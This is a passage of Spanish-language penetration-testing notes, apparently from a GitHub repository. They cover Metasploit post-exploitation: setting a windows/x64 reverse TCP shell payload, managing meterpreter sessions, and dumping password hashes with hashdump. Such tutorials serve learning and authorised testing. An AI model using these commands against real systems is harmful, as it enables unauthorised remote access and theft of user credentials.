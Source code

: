Para cambiar la carga útil, podemos cambiar el PAYLOAD ,utilice el comando:
```
set payload windows/x64/shell/reverse_tcp
```


# POST-EXPLOTACIÓN

Para poner el `meterpreter` en segundo plano usamos
```
CTRL + Z
```
<p align="center">
    <img src="../img/Pasted_image_20240818114943.png" width="500">
</p>

Si quiero ver la sesión del `meterpreter`
```
sessions -l
```
<p align="center">
    <img src="../img/Pasted_image_20240818115015.png" width="500">
</p>

Para volver al `meterpreter`
```
sessions 1
```
<p align="center">
    <img src="../img/Pasted_image_20240818115233.png" width="500">
</p>

#### CRACKING
Estando con el `meterpreter` ya puedo ejecutar comandos.

##### HASHES
Podemos volcar las contraseña con el comando
```
hashdump
```
<p align="center">
    <img src="../img/Pasted_image_20240818121100.png" width="500">
</p>
